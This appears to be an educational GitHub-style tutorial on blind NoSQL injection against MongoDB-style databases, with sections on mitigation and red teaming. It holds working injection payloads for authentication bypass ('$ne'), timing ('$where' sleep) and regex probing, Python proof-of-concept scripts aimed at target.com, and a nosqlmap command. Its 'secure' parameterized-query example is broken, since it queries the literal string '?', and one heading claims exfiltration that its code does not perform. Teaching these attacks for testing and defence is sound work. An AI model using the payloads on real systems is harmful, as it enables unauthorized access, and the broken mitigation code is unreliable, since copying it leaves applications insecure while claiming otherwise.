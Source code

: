 # Blind SQL Injection (BSQLi) in NoSQL and Modern Databases: A Red Teaming Perspective

## Table of Contents
- [Awareness](#awareness)
  - [Introduction to NoSQL Databases](#introduction-to-nosql-databases)
  - [The Myth of NoSQL Injection Immunity](#the-myth-of-nosql-injection-immunity)
  - [Real-World Cases](#real-world-cases)
- [Comprehension](#comprehension)
  - [Understanding Blind NoSQL Injection](#understanding-blind-nosql-injection)
  - [Types of Blind NoSQL Injection](#types-of-blind-nosql-injection)
  - [Example Attack Scenario](#example-attack-scenario)
- [Conviction](#conviction)
  - [Case Studies and Proof of Concept (PoC)](#case-studies-and-proof-of-concept-poc)
  - [Why This Matters](#why-this-matters)
- [Action](#action)
  - [Mitigation Strategies](#mitigation-strategies)
  - [Red Teaming Techniques](#red-teaming-techniques-for-testing-nosql-bsqli)
  - [Future of NoSQL Security](#future-of-nosql-security)

## Awareness

### Introduction to NoSQL Databases
NoSQL databases have gained popularity due to their scalability, flexibility, and schema-free nature. Common NoSQL databases include MongoDB, CouchDB, Firebase, and Cassandra.

```
+-------------------+
|   NoSQL Database |
+-------------------+
| Key-Value Stores |
| Document Stores  |
| Column Stores    |
| Graph Databases  |
+-------------------+
```

### The Myth of NoSQL Injection Immunity
Many developers assume NoSQL databases are immune to SQL Injection attacks because they do not use traditional SQL queries. However, injection vulnerabilities still exist, especially **Blind NoSQL Injection (BSQLi)**.

### Real-World Cases
- **2019 MongoDB Ransom Attacks** – Attackers exploited unsecured NoSQL instances.
- **Firebase Exploits** – Researchers found security flaws allowing unauthorized access.

## Comprehension

### Understanding Blind NoSQL Injection
Blind NoSQL Injection occurs when an attacker interacts with a NoSQL database in a way that does not return direct error messages. Instead, the attacker deduces information through **Boolean logic, time delays, or Out-of-Band (OOB) techniques**.

```
User Input  ---> Application  ---> Database Query
      |                        |
      |                        V
      +----> Blind Injection ---> Information Leak
```

### Types of Blind NoSQL Injection
- **Boolean-Based Blind NoSQL Injection** – The attacker sends queries that return true or false responses, helping to infer database behavior.
- **Time-Based Blind NoSQL Injection** – By measuring the response time of specific queries, attackers can extract data without direct feedback.
- **Out-of-Band (OOB) Blind NoSQL Injection** – Exploiting NoSQL engines that process external interactions, such as DNS or HTTP requests, to exfiltrate data.

### Example Attack Scenario
#### 1. Boolean-Based Injection
Consider a web application using MongoDB:

```javascript
user = db.users.findOne({"username": userInput, "password": passInput});
```

If the input is not sanitized, an attacker might inject:

```javascript
{"username": {"$ne": null}, "password": {"$ne": null}}
```

This bypasses authentication by always returning a valid user object.

#### 2. Time-Based Injection
If the database executes different queries based on conditional logic, an attacker can measure time delays to extract information:

```javascript
{"username": "admin", "$where": "sleep(5000)"}
```

A delay in response time indicates that the query successfully manipulated the backend logic.

```
Query Sent  ---> No Immediate Response  ---> Delay Observed  ---> Data Extracted
```

## Conviction

### Case Studies and Proof of Concept (PoC)
#### Extracting Admin Credentials via Boolean-Based Injection
```python
import requests

url = "http://target.com/login"
username_payload = {"username": {"$ne": None}, "password": {"$ne": None}}
response = requests.post(url, json=username_payload)

if response.status_code == 200:
    print("Possible NoSQL Injection vulnerability detected!")
```

#### Firebase Data Exfiltration via Time-Based Injection
```python
import time
import requests

url = "http://target.com/api/user"
payload = {"username": "admin", "$where": "sleep(5000)"}
start = time.time()
requests.post(url, json=payload)
end = time.time()

if end - start > 5:
    print("Time-based NoSQL Injection detected!")
```

### Why This Matters?
Blind NoSQL Injection can lead to:
- **Data breaches**
- **Privilege escalation**
- **Complete application compromise**

## Action

### Mitigation Strategies
#### Using Parameterized Queries
```python
import pymongo
from pymongo import MongoClient

client = MongoClient("mongodb://localhost:27017/")
db = client["testdb"]

# Secure way to handle user input
query = {"username": "?", "password": "?"}
result = db.users.find_one(query)
```

#### Input Validation
```python
def sanitize_input(user_input):
    blacklist = ["$ne", "$where", "$gt", "$lt", "$regex"]
    for keyword in blacklist:
        if keyword in user_input:
            raise ValueError("Potential NoSQL Injection detected!")
    return user_input

# Example Usage
try:
    user_input = sanitize_input("$ne: null")
except ValueError as e:
    print(e)
```

#### Access Control
```javascript
// In MongoDB, restrict user privileges
{
  "roles": [
    {
      "role": "read",
      "db": "testdb"
    }
  ]
}
```

### Red Teaming Techniques for Testing NoSQL BSQLi
#### Automated Scanners
```bash
nosqlmap -u "http://target.com/login"
```

#### Manual Payload Testing
```javascript
{"username": {"$regex": "^admin"}, "password": {"$ne": null}}
```

#### Logging and Monitoring
```python
import logging

logging.basicConfig(filename='nosql_injection.log', level=logging.WARNING)

def log_attempt(payload):
    logging.warning(f"Possible NoSQL Injection Attempt: {payload}")
```

### Future of NoSQL Security
With the rise of NoSQL databases, developers and red teams must adapt security measures to prevent evolving injection attacks. Investing in proactive security testing and secure coding practices is essential to mitigating these threats.
